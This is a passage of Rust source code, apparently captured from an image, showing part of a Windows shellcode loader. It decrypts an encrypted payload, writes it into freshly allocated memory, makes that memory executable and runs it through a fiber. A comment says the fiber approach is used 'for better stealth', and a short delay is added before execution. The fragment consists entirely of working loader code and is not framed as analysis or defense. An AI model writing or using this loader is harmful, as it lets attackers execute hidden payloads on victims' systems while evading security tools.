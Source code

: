 ```rust
                }
                
                // Convert back to thread
                if !self.main_fiber.is_null() {
                    ConvertFiberToThread();
                }
            }
        }
    }
}

// Enhanced execution using fibers for better stealth
#[cfg(target_os = "windows")]
unsafe fn execute_code_with_fibers(encrypted_memory: &mut EncryptedMemory) -> Result<(), Box<dyn Error>> {
    use std::mem;
    
    let code = encrypted_memory.get_decrypted_data();
    let size = code.len();
    
    // Validate code size
    if size == 0 {
        return Err("Empty code".into());
    }
    
    if size > 50 * 1024 * 1024 {  // 50MB limit
        return Err("Shellcode too large".into());
    }
    
    // Allocate memory for shellcode
    let buffer = win::VirtualAlloc(
        std::ptr::null_mut(),
        size,
        win::MEM_COMMIT | win::MEM_RESERVE,
        win::PAGE_READWRITE,
    );
    
    if buffer.is_null() {
        return Err("Failed to allocate memory for code".into());
    }
    
    // Copy shellcode to allocated memory
    std::ptr::copy_nonoverlapping(code.as_ptr(), buffer as *mut u8, size);
    
    // Change memory protection to executable
    let mut old_protect = 0u32;
    if win::VirtualProtect(buffer, size, win::PAGE_EXECUTE_READ, &mut old_protect) == 0 {
        return Err("Memory protection change to executable failed".into());
    }
    
    // Execute shellcode using fibers
    match fiber::Fiber::new(buffer, None) {
        Ok(fiber) => {
            // Add small delay before execution
            win::Sleep(100);
            
            // Execute the fiber
            let result = std::panic::catch_unwind(|| {
                fiber.execute().unwrap();
            });
            
            match result {
                Ok(_) => Ok(()),
```